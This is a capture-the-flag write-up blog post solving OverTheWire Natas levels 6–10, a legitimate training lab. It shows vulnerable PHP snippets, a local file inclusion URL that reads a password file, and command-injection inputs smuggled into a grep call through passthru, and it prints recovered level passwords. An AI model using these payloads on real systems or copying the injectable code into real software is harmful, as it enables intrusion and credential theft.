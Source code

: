 ```yaml
---
layout: post
title: "OverTheWire: Natas 6-10"
date: 2016-10-30 12:00:00
share: true
comments: true
---
```


_Many challenges from now on will show you the source code behind it.Some of these implementations are quite similar to what is actually used in production, so it's both valuable to know how they work as well as how you can exploit them._


## Natas 6

In this level you need to submit a secret password, going through the source code you'll realize it's stored in [includes/secret.inc]( http://natas6.natas.labs.overthewire.org/includes/secret.inc).
But why is it shown as blank? Check the source code, you'll realize it's stored in PHP tags.

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submitting the secret keyword in the form will reveal our next password.

![7]({{ site.baseurl}}/images/7.png)

## Natas 7

2 pages beside the index page exist, `Home` and `About`. They don't seem
to be particularly useful but the way the url is constructed [definitely
is](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion). You'll
also notice a hint in both pages in the source code:

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

You may have realized already that this is a `local file inclusion` vulnerability, if not check the OWASP link previously mentioned. LFI is one of many web application vulnerabilities where the parameters are not properly sanitized. The url is in the following format:
```
http://natas7.natas.labs.overthewire.org/index.php?page=filename
```

Code behind it possibly looks like this:

```php
<?php
$file = $_GET['page'];

if(isset($file))
{
    include($file);
}
else
{
    include("index.php");
}
?>
```

A simple request with the full path of the password file will do.

Hitting `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`
will reveal the password.

## Natas 8

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

```

In this challenge we need to submit a secret pass which should match the string `$encodedSecret`. One approach is to brute force the solution till it works (BAD!), the more obvious one is reversing whatever the `encodedSecret` method does.

Fire up a terminal with PHP installed, let's write the code for the reverse
function:

```console
root@kali:~# php -r '$passKey=base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));echo $passKey;'
oubWYf2kBqr
```

Submitting "oubWYf2kBqr" in the form will reveal the password.

![8]({{ site.baseurl}}/images/8.png)

## Natas 9

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

[`passthru`](http://php.net/manual/en/function.passthru.php) is one of the PHP functions that allows executing commands along with [`exec`](http://php.net/manual/en/function.exec.php) and [`system`](http://php.net/manual/en/function.system.php). Try entering any
character and you'll notice it's just grepping it from a dictionary.txt file.

As we know from earlier, passwords are in `/etc/natas_webpass/natasX`, where X is the level number. So we want it to run grep against `/etc/natas_webpass/natas10`. How do we make this command behave the way we want it to? By code injection.

Using the pound symbol # allows us to terminate a bash command, example below:

```console
root@kali:~/Documents# ls
emptyfile
root@kali:~/Documents# whoami
root
root@kali:~/Documents# ls # whoami
emptyfile
root@kali:~/Documents# whoami # ls
root
```

By sending a random character (hoping it's in the password) followed by the file we want to read and a pound key will do.

Input: `a /etc/natas_webpass/natas10 #`


## Natas 10

This challenge is quite similar to Natas 9, except that we can't use many
special characters.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Fortunately, our same exact approach works in this example too.

1. **Input**: `a /etc/natas_webpass/natas11 #`
**Output**: _empty_

2. **Input**: `b /etc/natas_webpass/natas11 #`
**Output**: _empty_

3. **Input**: `c /etc/natas_webpass/natas11 #`
**Output**: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Sweet, the password is `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`.